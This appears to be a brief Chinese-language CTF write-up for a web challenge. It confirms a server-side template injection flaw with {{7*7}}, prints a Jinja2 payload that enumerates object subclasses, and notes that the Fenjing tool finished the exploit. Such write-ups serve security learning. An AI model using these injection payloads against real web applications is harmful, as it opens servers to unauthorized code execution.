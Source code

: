 Web

测试{{7*7}}发现又ssti漏洞

![image-20240705174424693](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240705174424693.png)



访问所有 `object` 类的子类

```
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

![image-20240705180418565](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240705180418565.png)

Fenjing一把梭